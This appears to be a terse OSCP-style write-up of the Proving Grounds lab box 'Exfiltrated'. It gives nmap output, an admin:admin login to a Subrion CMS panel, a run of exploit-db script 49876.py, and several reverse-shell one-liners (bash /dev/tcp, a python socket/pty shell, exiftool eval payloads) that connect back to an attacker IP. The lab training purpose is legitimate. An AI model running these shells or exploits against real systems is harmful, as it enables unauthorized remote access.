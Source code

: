 ```yaml
---
layout: post
title:  "Write Up: Proving Grounds Practice - Exfiltrated"
date:   2024-07-23 17:37:51 -0400
categories: oscp proving-grounds TJNull
---
```


192.168.174.163

┌──(kali㉿kali)-[~/offsec/pg-practice/Exfiltrated]
└─$ sudo nmap -sV -sC -p- -oA Exfiltrated 192.168.169.163
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 19:16 EDT
Nmap scan report for 192.168.169.163
Host is up (0.037s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
|_  256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
| http-robots.txt: 7 disallowed entries 
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/ 
|_/updates/http://exfiltrated.offsec/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.56 seconds



sudo nmap -sV -sC -p- -oA Exfiltrated-2 http://exfiltrated.offsec/


=======================================================
http://exfiltrated.offsec/

http-title: Home :: Powered by Subrion 4.2

able to log into http://exfiltrated.offsec/panel/ with: admin:admin


found the following exploit: 
/usr/share/exploitdb/exploits/php/webapps/49876.py

python3 exploit.py -u http://exfiltrated.offsec/panel/ -l admin -p admin

got shell access: www-data

bash -i >& /dev/tcp/192.168.45.213/8080 0>&1

/usr/bin/python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.213",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'



https://github.com/OneSecCyber/JPEG_RCE


 exiftool -config eval.config runme.jpg -eval="/usr/bin/python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.213",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'" 
 
 
 
exiftool -config eval.config runme.jpg -eval='system("bash -c \"bash -i >& /dev/tcp/192.168.45.213/4444 0>&1\"")'
  
  
  
 0<&196;exec 196<>/dev/tcp/192.168.45.213/4444; sh <&196 >&196 2>&196
/bin/bash -l > /dev/tcp/192.168.45.213/4444 0<&1 2>&1
==================================================

gobuster dns -d exfiltrated.offsec -w /usr/share/wordlists/dirb/common.txt -o exfiltrated-dns --exclude-length 0




dirsearch -u http://exfiltrated.offsec/ -r -o dirsearch.txt
